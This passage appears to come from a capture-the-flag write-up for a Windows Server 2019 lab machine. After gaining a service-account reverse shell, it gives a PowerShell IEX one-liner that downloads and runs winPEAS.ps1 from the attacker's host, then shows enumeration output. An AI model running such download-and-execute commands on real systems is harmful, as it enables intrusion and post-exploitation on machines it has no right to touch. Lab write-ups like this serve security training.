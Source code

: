 ```xml
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

From this whoami command, we are under sa service account : `NT AUTHORITY\SERVICE`, `Mandatory Label\High Mandatory Level`

In order to enumerate, we will use winPEAS. Download and execute from the reverse shell:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('[http://10.10.14.23:9090/winPEAS.ps1](http://10.10.14.23:9090/winPEAS.ps1)')
```

We can note e few items :

```text
====================================||SYSTEM INFORMATION ||====================================
The following information is curated. To get a full list of system information, run the cmdlet get-computerinfo

Host Name:                 VISUAL
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-00521-62775-AA642
Original Install Date:     6/10/2023, 10:08:12 AM
System Boot Time:          10/20/2023, 3:16:49 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,955 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,737 MB
Virtual Memory: In Use:    1,062 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.11.234
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

